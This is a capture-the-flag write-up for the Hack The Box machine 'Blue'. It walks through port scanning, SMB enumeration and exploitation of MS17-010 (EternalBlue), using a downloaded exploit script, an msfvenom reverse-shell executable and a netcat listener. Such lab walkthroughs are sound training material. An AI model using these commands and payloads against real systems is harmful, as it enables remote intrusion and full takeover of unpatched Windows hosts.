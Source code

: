 # Blue 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Blue)  [2](https://app.hackthebox.com/machines/Blue)

**Machine ip:** 10.10.10.40

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8b31b09-f318-49b3-a8b6-0faa07b52c0d)


# Sections
+ [Reconnaissance](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/39_Blue.md#reconnaissance)
+ [Enumeration](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/39_Blue.md#enumeration)
+ [Exploitation & Gaining Access & Privilege Escalation](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/39_Blue.md#exploitation--gaining-access--privilege-escalation)
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/39_Blue.md#links)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.40 -e tun0 > ports

sort -n -k4 ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.40 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/541cf98d-1908-45af-a6ea-4bfc302fdf55)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1acc49b7-1b38-4c2f-8f43-2c7d42f91b00)


## Enumeration
```
nmap --script vuln 10.10.10.40
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/be27653c-bed5-41e6-bf76-9b531c32a044)

```
smbmap -H 10.10.10.40 -u guest -p ''

smbclient //10.10.10.40/share

smbclient //10.10.10.40/users
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/19694aa3-0564-4de5-b490-bd57dd9f1df0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e9cef959-7fd1-4f26-8943-d5097d0ca541)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2017-0144](https://www.exploit-db.com/exploits/42315) - Manual Solution
```
searchsploit ms17-010

searchsploit -m 42315

mv 42315.py ms17-010.py
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ff3583a-8c7e-46f7-a6b0-27fbd1a5692b)

Modify username as **guest** in the below python exploit code:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74f3513b-14eb-452e-98ba-2dd5bd2117da)

Uncomment two lines, update the exploit code with the reverse shell executable location and get the script to execute it:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7eb03635-3cf3-4bef-b318-aa69bb2263f0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/521a14ec-bd35-4563-af1e-a7e350f62e53)

```
# On kali attack machine:
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.24 LPORT=4444 -o ms17-010.exe

nc -lnvp 4444

python2 ms17-010.py 10.10.10.40

# On the target machine:
whoami
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1dadd00f-e06d-4a7b-8a2d-b6a4c02286d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b30f7bd-8ec0-4e8b-902b-78ed57b5660b)


### Method 2: [CVE-2017-0144](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) - Metasploit Solution
+ Try with metasploit solution [1](https://ethicalhacs.com/blue-hackthebox-walkthrough/) [2](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) [3](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#metasploit) [4](https://u1sp00kies.medium.com/hack-the-box-htb-blue-walkthrough-7dac9505bc9c)


### Method 3: [CVE-2017-0143](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) Manual Solution is the same as on [Legacy Machine's Method 2](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#method-2-cve-2017-0143-ms17-010--eternal-blue--shadow-brokers--wannacry--notpetya-1-2-3)
+ Try **CVE-2017-0143** [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46) [3](https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505#4f92)

---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#blue
+ https://medium.com/@dw3113r/hack-the-box-blue-writeup-without-metasploit-1c6f7e3c586c
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/blue-writeup-w-o-metasploit
+ https://ethicalhacs.com/blue-hackthebox-walkthrough/
  + https://0xdf.gitlab.io/2021/05/11/htb-blue.html
  + https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46
  + https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505
  + https://www.hackingarticles.in/hack-the-box-challenge-blue-walkthrough/


## CVE Scripting
+ **CVE-2017-0144 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/42315
    + https://nvd.nist.gov/vuln/detail/CVE-2017-0144
  + https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
+ **CVE-2017-0143 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/43970
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010
  + https://github.com/3ndG4me/AutoBlue-MS17-010


## Tools
+ **mysmb.py:** https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
  + https://github.com/worawit/MS17-010
+ **impacket:** https://github.com/fortra/impacket


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
  + https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution: The same as on [Legacy Machine's Problems Solution](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#problems-solution)
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ https://unix.stackexchange.com/questions/654723/cant-install-python2-modules-kali-2020


## For More
+ https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010
+ https://msrc.microsoft.com/blog/2017/05/customer-guidance-for-wannacrypt-attacks/
+ https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
+ **Shadow Brokers:** https://en.wikipedia.org/wiki/The_Shadow_Brokers
+ **WannaCry ransomware attack:** https://en.wikipedia.org/wiki/WannaCry_ransomware_attack
  + https://darknetdiaries.com/episode/73/
+ https://cwe.mitre.org/data/definitions/680.html
+ https://andyrussellcronin.wordpress.com/2012/04/13/understanding-heap-spraying/
+ https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/
